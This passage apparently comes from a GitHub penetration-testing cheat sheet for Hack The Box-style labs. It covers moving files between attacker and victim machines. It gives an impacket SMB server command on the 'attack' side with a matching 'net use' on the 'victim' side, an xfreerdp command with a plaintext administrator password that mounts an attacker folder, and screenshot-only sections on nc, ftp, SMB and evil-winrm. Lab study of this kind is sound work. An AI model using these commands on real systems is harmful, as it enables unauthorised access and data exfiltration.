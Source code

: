 ![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f183cb25-5143-4896-a101-d4b29ee8c273)


### smb with username + pass
attack
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
victim
```
net use n: \\192.168.220.133\share /user:test test
```
### Mount linux folder with rdp

<img width="704" alt="Screen Shot 2022-09-06 at 5 49 22 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/01e8ecf4-156e-4408-b83c-c4b6e12f3407">


```
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
### Using nc

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/94b2098c-8733-4757-a4bf-aa8be6ffc7a8)


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/07c2968c-dba2-4728-bbe9-61a07ceadd97)


## Windows hash
To ensure integrity
```
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
## From Windows to Attack

### ftp

<img width="963" alt="Screen Shot 2022-09-02 at 12 34 22 AM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/e38bbf4b-44bd-49eb-a5e6-6f370d06d173">

### smb
<img width="705" alt="Screen Shot 2022-08-06 at 1 39 31 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/fe5bd0db-eade-4b57-8c5b-d4a74bf27fe5">

<img width="402" alt="Screen Shot 2022-08-06 at 1 40 50 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/affb4d0d-10ef-47c4-971e-295187252f02">


### evilwinrm


<img width="795" alt="Screen Shot 2022-09-21 at 5 35 36 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/b16faa23-032d-47e7-bbad-8a68e7b8c0e0">
